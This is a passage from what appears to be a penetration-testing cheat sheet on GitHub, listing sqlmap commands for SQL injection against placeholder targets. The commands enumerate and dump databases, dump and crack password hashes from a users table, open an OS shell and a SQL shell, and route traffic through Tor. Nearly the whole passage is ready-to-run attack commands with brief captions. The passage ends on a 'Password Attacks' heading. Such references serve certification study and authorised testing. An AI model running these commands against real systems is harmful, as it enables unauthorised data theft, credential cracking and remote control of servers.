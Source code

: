 - Targeted sqlmap scan

sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump

- Scan url for union + error based injection with mysql backend

and use a random user agent + database dump
sqlmap -o -u http://$ip/index.php --forms --dbs
sqlmap -o -u "http://$ip/form/" --forms
sqlmap check form for injection
sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump
sqlmap dump and crack hashes for table users on database-name.
Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs
Enumerate tables from a specific database
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables
Dump table data from a specific database and table
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
Specify parameter to exploit

sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2

Specify parameter to exploit in 'nice' URIs

sqlmap --dbms=mysql -u "[http://www.example.com/param1/value1\*/param2/value2](http://www.example.com/param1/value1%5C*/param2/value2)" --dbs # exploits param1

Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell
Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell
SQL query

sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs
-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='78'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2540' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#password-attacks)Password Attacks

    - AES Decryption

